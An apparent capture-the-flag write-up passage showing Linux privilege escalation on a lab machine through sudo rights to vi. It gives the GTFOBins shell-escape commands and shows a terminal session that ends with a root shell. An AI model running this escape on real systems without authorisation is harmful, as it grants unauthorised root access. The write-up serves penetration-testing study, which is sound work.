


vi only as root
Example:
So we have sudo privileges to edit the pg_hba.conf file using vi by running sudo /bin/vi
/etc/postgresql/11/main/pg_hba.conf . We will go to GTFOBins to see if we can abuse this privilege:
https://gtfobins.github.io/gtfobins/vi/#sudof the binary is allowed to run as superuser by sudo, it does not drop the elevated
privileges and may be used to access the file system, escalate or maintain privileged
access.
sudo vi -c ':!/bin/sh' /dev/null
OR
Inside vi use the following:
vi
:set shell=/bin/sh
:shell
postgres@vaccine:~$ sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root)
#
We got root access